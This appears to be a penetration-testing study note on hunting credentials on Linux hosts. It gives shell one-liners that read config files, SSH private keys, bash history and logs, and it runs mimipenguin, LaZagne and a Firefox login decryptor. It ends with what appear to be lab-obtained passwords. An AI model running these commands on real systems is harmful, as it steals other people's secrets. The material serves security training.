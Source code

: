# Credentail Hunting

## **Files**

### **Credentials in Configuration Files**

```bash
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

### **Databases**

```bash
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

### **Notes**

```shell-session
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

> Notes is chalenging to find due to the name of the file could be anything and might not have an extension. We can scan for all of those file and look at the file names manually

### **Scripts**

```shell-session
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

### **Cronjobs**

```shell-session
cat /etc/crontab
```

```shell-session
ls -la /etc/cron.*/
```

### **SSH Keys**

#### **SSH Private Keys**

```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

#### **SSH Public Keys**

```bash
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

### **Bash History**

```shell-session
tail -n5 /home/*/.bash*
```

### **Logs**

```shell-session
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

## **Memory**

### **Mimipenguin**

```shell-session
sudo python3 mimipenguin.py
#or
sudo bash mimipenguin.sh 
```

### laZagne

To run the python package of laZagne.py you have to move the entire directory of the linux package from the github since it has all the dependencies.

```shell-session
sudo python3 laZagne.py all
```

### **Firefox Stored Credentials**

```shell-session
ls -l .mozilla/firefox/ | grep default 
```

```shell-session
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

#### **Decrypting Firefox Credentials**

```shell-session
python3 firefox_decrypt.py
```

## Assessment

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption><p>kira:L0vey0u1!</p></figcaption></figure>

Running lazagne.py will give us the following

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption><p>TUqr7QfLTLhruhVbCP</p></figcaption></figure>

